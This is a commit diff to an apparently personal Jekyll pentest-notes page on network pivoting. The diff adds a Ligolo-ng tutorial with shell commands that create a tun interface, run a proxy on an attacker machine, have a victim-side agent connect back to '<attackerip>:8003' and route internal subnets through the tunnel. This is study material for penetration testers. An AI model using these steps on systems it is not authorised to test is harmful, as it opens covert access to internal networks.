

Before and after one commit to 0xabsec/0xabsec.github.io, a Jekyll site: the page built from pages/pivot.md, in a window 1280 px wide and 1400 px high, scrolled down 302 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
initial commit

````diff
--- a/pages/pivot.md
+++ b/pages/pivot.md
@@ -11,6 +11,57 @@ Two Main method to do pivioting ;:
 
 Proxy is good if we want to redirect lots of different kind of traffic into our target network (example nmap scan)
 Port forwading is faster and reliable but only allows us to access single port on a target device
+
+
+## Ligolo-ng
+
+Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS
+
+
+* On Attacking machine we run the ligolo proxy
+* On the Victim machine we run the ligolo agent
+
+Create a tun interface
+
+```
+attacker@ubuntu:~$ sudo ip tuntap add user [your_username] mode tun ligolo
+
+attacker@ubuntu:~$ sudo ip link set ligolo up
+```
+
+Run Ligolo
+
+```
+attacker@ubuntu:~$ ./lin-proxy -selfcert -laddr 0.0.0.0:8003
+```
+
+On the Target Machine
+
+```
+C:\Users\> ./agent -connect <attackerip>:8003 -ignore-cert
+```
+
+After we see session is connected Run ifconfig on Attacker machine
+
+```
+[Agent : machine\user@dc1] >> ifconfig
+```
+
+Copy the ip and add it to ligolo using ip route
+
+```
+attacker@ubuntu:~$ sudo ip route add <ip/cidr> dev ligolo
+attacker@ubuntu:~$ sudo ip route add 192.168.49.0/24 dev ligolo   <- example
+```
+
+On ligolo interface we can select the ligolo session after running **session**  and initiate the tunneling process with **start**
+
+```
+[Agent : machine\user@dc1] >> session
+
+[Agent : machine\user@dc1] >> start
+```
+
 
 ## ProxyChains,FoxyProxy
 
````
